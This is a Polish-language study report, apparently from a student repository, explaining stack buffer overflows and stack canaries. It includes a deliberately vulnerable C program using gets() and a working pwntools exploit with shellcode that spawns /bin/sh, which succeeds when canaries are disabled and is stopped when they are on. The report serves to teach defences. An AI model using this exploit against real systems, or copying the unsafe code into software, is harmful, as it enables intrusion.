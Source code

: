 # Badanie rozwiązań chroniących natywne aplikacje działające w trybie użytkownika

## Wstęp
Celem pracy jest zbadanie wybranych rozwiązań chroniących natywne aplikacje działające w trybie użytkownika. W celu przeprowadzenia wszelkich praktycznych części każdego z zagadnień używany był przeze mnie system Ubuntu 20.04.2.0 w wersji 64-bitowej. Innymi użytymi narzędziami był Python 3.8.5, kompilator gcc w wersji 9.3.0, oraz debugger GNU gdb w wersji 9.2.

### Przepełnienie bufora
Wszystkie rozwiązania badane przeze mnie w poniższej pracy mają na celu ochronę użytkownika przed atakami typu _Buffer Overflow_. Z tego też względu na początku postanowiłem lepiej przybliżyć koncepcje tego typu ataków.  

W tej pracy skupiam się na przepełnieniu bufora na stosie. Jest ono możliwe, ze względu na zastosowanie niebezpiecznych funkcji w różnych językach programowania. Tymi językami są najczęściej _C_/_C++_, ponieważ nie posiadają one wbudowanych zabezpieczeń przed nadpisaniem, bądź dostępem do danych w pamięci. Rozważania prowadzone dalej prowadzone są dla użycia języka _C_. Wyzej wspomniane funkcje pozwalają użytkownikowi na wpisanie danych do pamięci, poza wyznaczony obszar. Jest to możliwe ponieważ nie dokonują one poprawnej weryfikacji wprowadzonych danych. W takiej sytuacji użytkownik może wprowadzić dane o większej długości, niż przeznaczony na to bufor. Nadmiarowa długość wejścia nadpisze pamięć poza buforem.  

Niebezpieczeństwo opisanej powyżej sytuacji wynika z tego, że bufor w pamięci znajduje się na stosie wywołania danej fukncji (rozpatruję przypadek bufora na stosie). Stos jest strukturą przechowującą nie tylko bufor, ale i inne dane związane z wywołaniem funkcji. To takich danych należą m.in. zmienne lokalne, oraz wskaźniki. Kluczowym w prowadzonych rozważaniach wskaźnikiem będzie _return pointer_ (wskaźnik na adres powrotu). Nadpisanie zawartości pamięci pod adresem takiego wskaźnika (który znajduje się pod buforem), w teorii może pozwolić atakującemu na wskazanie procesorowi dowolnego miejsca w pamięci, jako dalszej części programu i zmusić go do wykonania znajdujących się w tym obszarze instrukcji. Jednym ze sposobów na to, aby napastnik mógł wykonać napisane przez siebie samego instrukcje, jest np. umieszczenie ich w przepełnianym buforze i wskazanie ich lokalizacji jako adres powrotu funkcji. Celem atakującego może być również przykładowo nadpisanie zmiennych lokalnych funkcji na stosie (np. aby zaburzyć integralność danych dla danego wykonania programu).  

W praktyce, w nowoczesnych systemach komputerowych, nie jest to takie trywialne. Dzisiejsze kompilatory czy same systemy operacyjne dostarczają często wiele warstw rozwiązań, mających na celu zabezpieczyć aplikacje przed możliwością wykonania takiego ataku. W poniższej pracy omówię trzy, często stosowane, przykłady takich rozwiązań.  

Dla omówienia poszczególnych rozwiązań skupię się na ataku przez nadpisanie adresu powrotu ramki stosu.

## Kanarki stosu
### Zakres działania

Kanarek stosu jest specjalną wartością umieszczoną na stosie w odpowiednim miejscu, w taki sposób aby chronić dane stosu przed nadpisaniem od strony bufora. Można go skategoryzować jako zabezpieczenie służące do wykrycia próby przepełnienia buforu na stosie. Jest on dodawany automatycznie przez nowoczesne kompilatory, podczas procesu kompilacji kodu programu (pod warunkiem że taka opcja nie zostanie wyłączona). Dąży się do tego, aby miał on unikalną wartość, która będzie sprawdzana, gdy program powraca do funkcji wywołującej. W przypadku kiedy dojdzie do przepełnienia bufra na stosie i nadpisania kluczowych dla atakującego danych na stosie (np. wspomniany wcześniej adres powrotu), wtedy nieuniknionym powinno być nadpisanie przez atakującego wartości kanarka. Będzie to skutkowało blędną weryfikacją przed samym powrotem funkcji, co spowoduje przerwanie działania programu. Zapobiegnie to przejściu procesora do wykonywania instrukcji wskazanych przez atakującego.  


<p align="center">
  <img src="obrazy/kanarek_1.png" />
</p>
<p align = "center">
  Rys.1 - Schematyczne przedstawienie możliwej struktury ramki stosu z uwzględnieniem kanarka stosu.
</p>  
  

<p align="center">
  <img src="obrazy/kanarek_2.png" />
</p>
<p align = "center">
  Rys.2 - Część wygenerowanego przez kompilator gcc kodu Assemblera dla włączonych, i dla wyłączonych kanarków stosu.
</p>

#### Typy kanarków stosu

Można wyróżnić różne typy kanarków. Są nimi między innymi:
- _**Null canary**_ - Najprostszy typ kanarka. Dla systemu 32-bitowego składa się z czterech bajtów _NULL_ pod rząd. Jego wartość jest przewidywalna dla atakującego, więc tego typu kanarek ma na celu ochronę przed przepełnieniami bufora za pomocą funkcji operujących na stringach.
- _**Terminator canary**_ - Zbliżony w koncepcji działania do _Null canary_. Zawiera on bajty: _0x00, 0x0d, 0x0a, 0xff_. Powinny one przerwać ciąg znaków dla większości operacji operujących na stringach.
- _**Random canary**_ - Losowy kanarek stosu. Jego trzy pseudolosowe bajty mogą być poprzedzone _NULL_-bajtem (0x00).
- _**Random XOR canary**_ - _Random canary_, którego wartość może być dodatkowo _XOR_-owana np. z wartościami wskaźników. Dodaje to dodatkową warstwę bezpieczeństwa przy próbie podmienienia wartości kanarka i nadpisania jakiegoś wskaźnika przez napastnika.

### Przykładowa aplikacja
Poniższa aplikacja została napisana w języku _C_. Jest to prosta aplikacja pobierająca dane tekstowe od użytkownika (jego imię). Ze względu na to, że przedmiotem badań tego punktu są kanarki stosu - postanowiłem w celach demonstracyjnych umieścić w aplikacji kawałek kodu, który wprost podaje użytkownikowi adres stosu funkcji _main_.

```C
#include <stdio.h>
#include <stdlib.h>

void get_users_name()
{
    char name[64] = {0};
    puts("Podaj imie:");
    gets(name);
    printf("Czesc %s!\n", name);
}

int main()
{
    int x;
    printf("Adres na stosie main: %p\n", &x);
    get_users_name();
    return 0;
}
```

Aplikacja ta, w celu przyjęcia danych od użytkownika używa niebezpiecznej funkcji _gets()_, która została już usunięta ze standardu języka _C_. 
Plik _main.c_ zawierający powyższy kod został dołączony do repozytorium i znajduje się w katalogu _Kanarki_.

### Exploit

Poniższy exploit pobiera od aplikacji adres z ramki stosu _main_, następnie na podstawie pobranego adresu, oraz _shellcode_'u tworzy ładunek. Ładunek został skonstruowany w taki sposób, aby wykonywalny _shellcode_ umieścić w ramce stosu _main_, tak aby wskazany adres powrotu doprowadził do wykonania _shellcode_'u (dzięki wykorzystaniu _NOP Slide_).

```Python
from pwn import *

#uruchamia proces main i zczytuje adres stosu:
p = process("./main")
p.readuntil("Adres na stosie main: ")
stack_ptr = int(p.readuntil("\n").strip(), 16)
p.readuntil("Podaj imie:\n")

#przygotowanie ciagu bajtow do przepelnienia bufora
padding = b'\x90'*72
RIP = p64(stack_ptr)
NOP = b'\x90'*128
shellcode =b'\xeb\x1e\x5f\x48\x31\xc0\x88\x47\x07\xb0\x3b\x48\x31\xf6\x48\x31\xd2\x48\x31\xc9\x0f\x05\x48\x31\xc0\x48\x31\xff\xb0\x3c\x0f\x05\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x70\xd8\xff\xff\xff\x7f'
payload =  padding + RIP + NOP + shellcode

#debugger
gdb.attach(p)

#wyslanie ladunku
p.sendline(payload)
print(p.readall())
```

Plik _exploit.py_ zawierający powyższy kod został dołączony do repozytorium i znajduje się w katalogu _Kanarki_.

#### Działanie exploitu dla wersji programu bez włączonego zabezpieczenia, oraz z włączonym zabezpieczeniem


Poniżej okno debuggera dla uruchomienia exploitu komendą ```python3 exploit.py``` z wyłączonymi kanarkami stosu (komenda użyta do kompilacji pliku main.c: ```gcc main.c -std=c99 -fno-stack-protector -z execstack -no-pie -w -o main -Wl,-z,norelro```):

<p align="center">
  <img src="obrazy/exploit_bez_kanarkow.png" />
</p>
<p align = "center">
  Rys.3 - Jak widać wykonanie shellcode'u powiodło się.
</p>  


Okno debuggera dla uruchomienia exploitu komendą ```python3 exploit.py``` z włączonymi kanarkami stosu (komenda użyta do kompilacji pliku main.c: ```gcc main.c -std=c99 -z execstack -no-pie -w -o main -Wl,-z,norelro```):

<p align="center">
  <img src="obrazy/exploit_z_kanarkami.png" />
</p>
<p align = "center">
  Rys.4 - W tej sytuacji wykonanie programu zostało zatrzymane zgodnie z oczekiwaniami.
</p>  

### Porównanie metody dla kompilatorów gcc oraz clang
Przedstawiana w tym punkcie metoda działa w podobny sposób w przypadku najnowszych wersji obu tych kompilatorów.

### Użyteczność metody oraz wady jej stosowania
Kanarki stosu są jedną z podstawowych metod zabezpieczenia przed atakami typu _buffer overflow_. Mimo wprowadzanych ulepszeń jak np. w kwestii randomizacji wartości kanarka, mogą się one okazać możliwe do przewidzenia, więc nigdy nie stanowią pełnego zabezpieczenia. Wymuszają one dla procesora dodatkowe instrukcje, wydłużając czas wykonania programu.
